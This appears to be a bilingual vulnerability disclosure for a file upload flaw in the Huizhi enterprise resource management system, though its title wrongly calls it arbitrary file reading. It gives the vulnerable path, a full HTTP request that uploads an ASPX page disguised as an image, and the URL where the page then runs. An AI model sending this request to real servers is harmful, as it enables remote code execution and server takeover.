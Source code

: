 ##  汇智企业资源管理系统 存在任意文件读取漏洞(There is arbitrary file reading vulnerability in Huizhi enterprise resource management system)



### Info

The program Enterprise Resource management system developed by Shenzhen Huizhi Software Development Co., Ltd. has a file upload vulnerability, which is a common serious security risk in Web applications, and provides an opportunity for attackers to upload and execute malicious script files. This vulnerability may not only lead to the server being completely taken over, the execution of arbitrary commands, but also may lead to a series of serious consequences such as data leakage, website content tampering. What's more, once the attack is successful, the attacker can also use the vulnerability to further spread the attack, affecting more users and systems. Leak path: / nssys/common/Upload. Aspx? Action=DNPageAjaxPostBack

------

深圳汇智软件开发有限公司 开发的程序 汇智企业资源管理系统 存在文件上传漏洞,文件上传漏洞是Web应用程序中一种常见的严重安全风险，它为攻击者提供了可乘之机，使他们能够上传并执行恶意的脚本文件。这种漏洞不仅可能导致服务器被完全接管，执行任意命令，还可能引发数据泄露、网站内容篡改等一系列严重后果。更为严重的是，一旦攻击成功，攻击者还可以利用该漏洞进一步扩散攻击，影响更多的用户和系统。漏洞路径为：/nssys/common/Upload.aspx?Action=DNPageAjaxPostBack 

### Vuln information

![image-20240723093556878](2.png)

HTTP data

```http
POST /nssys/common/Upload.aspx?Action=DNPageAjaxPostBack HTTP/1.1
Host: 127.0.0.1:8031
Content-Length: 1033
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary= ----WebKitFormBoundaryLkkAXATqVKBHZ8zk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=wxybf2dxluu5sjlb2vxdyrsa
Connection: close

------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwUJOTc0NzkxMzQ1D2QWAgIDDxYGHhdJc0JlZm9yZU9wZXJhdGVTYXZlRGF0YWgeBmlzZ3VpZAUBMR4OY2hlY2tmb3Jtc3RhdGUFATBkZHwobq1hNj9MTgjOtrIn/0gbCdhD
------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="__VIEWSTATEGENERATOR"

573D6CFB
------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="upfile_Input"


------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="upfile_upload"; filename="1"
Content-Type: image/jpeg

<!DOCTYPE html>
<html>
<head>
    <title>ASP.NET Web Forms Example</title>
</head>
<body>
    <%@ Page Language="C#" %>
    <% Response.Write("hello,world"); %>
</body>
</html>
------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="upfilename"

2.aspx
------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="dnpostmethodname"

uploadfile
------WebKitFormBoundaryLkkAXATqVKBHZ8zk--

```

![image-20240723101055386](4.png)

http://127.0.0.1:8031/Upload/2024-07/2.aspx

![image-20240723101149039](5.png)





The file upload vulnerability allows an attacker to upload malicious files to a server, execute code, obtain sensitive data, or even take complete control of the server. The following are the main hazards of file upload vulnerabilities:
Server takeover: An attacker can take control of the server and execute arbitrary commands by uploading malicious script files.
Data breach: Attackers can upload files to servers, access and steal sensitive data
Website tampering: Attackers can upload script files, tamper with website content, and conduct phishing or other fraudulent activities.
Malicious code execution: The server executes scripts uploaded by users, which may cause code execution and further harm system security
File upload vulnerability is a very serious security threat in Web applications, and attackers can use these vulnerabilities to carry out various malicious activities. Therefore, for any Web application with file upload capabilities, strict input validation and file type checks must be carried out to prevent such vulnerabilities from occurring.
